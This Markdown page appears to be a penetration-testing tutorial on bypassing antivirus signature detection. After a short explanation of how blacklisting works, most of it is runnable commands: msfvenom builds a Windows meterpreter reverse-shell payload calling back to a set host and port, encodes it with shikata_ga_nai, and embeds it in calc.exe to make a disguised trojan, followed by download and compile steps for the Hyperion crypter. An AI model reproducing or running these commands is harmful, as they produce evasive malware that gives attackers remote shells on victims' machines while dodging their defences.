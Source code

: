# Bypassing antivirus

So first of all, what is a antivirus program and how does it work?

## How does it work?

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures. 

## How do we bypass it?

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it. 

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

### Encoding

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the **-e** flag here, and then use the shikata_ga_nai encoding. This is not that effective since antivirus-vendors have access to meteasploit as well.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

### Embed in non-malicious file

Another way is to embed our payload in a non-malicious file.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

### Encrypting the malware

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me (october 2016)

```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

